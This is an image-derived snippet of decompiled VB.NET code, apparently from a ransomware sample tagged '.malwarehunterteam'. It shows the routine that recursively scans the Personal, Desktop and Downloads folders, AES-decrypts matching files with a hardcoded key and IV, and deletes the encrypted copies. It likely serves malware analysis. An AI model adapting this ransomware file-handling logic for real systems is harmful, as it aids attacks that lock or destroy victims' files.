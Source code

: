 In the folders:

- Personal
- Desktop
- Downloads

```
Private Sub method_1(string_1 As String)
	For Each string_2 As String In Directory.GetFiles(string_1)
		If Me.method_2(string_2) Then
			Me.method_3(string_2)
		End If
	Next
	For Each string_3 As String In Directory.GetDirectories(string_1)
		Me.method_1(string_3)
	Next
End Sub

Private Function method_2(string_1 As String) As Boolean
	Return string_1.EndsWith(Form2.string_0)
End Function

Private Sub method_3(string_1 As String)
	Try
		' The following expression was wrapped in a checked-expression
		Dim path As String = string_1.Substring(0, string_1.Length - Form2.string_0.Length)
		Using aes As Aes = Aes.Create()
			aes.Key = Form2.byte_0
			aes.IV = Form2.byte_1
			Using fileStream As FileStream = New FileStream(string_1, FileMode.Open)
				Using fileStream2 As FileStream = New FileStream(path, FileMode.Create)
					Using cryptoTransform As ICryptoTransform = aes.CreateDecryptor(aes.Key, aes.IV)
						Using cryptoStream As CryptoStream = New CryptoStream(fileStream, cryptoTransform, CryptoStreamMode.Read)
							cryptoStream.CopyTo(fileStream2)
						End Using
					End Using
				End Using
			End Using
		End Using
		File.Delete(string_1)
	Catch ex As Exception
	End Try
End Sub

Private Shared byte_0 As Byte() = New Byte() { 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32 }

Private Shared byte_1 As Byte() = New Byte() { 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48 }

Private Shared string_0 As String = ".malwarehunterteam"
```
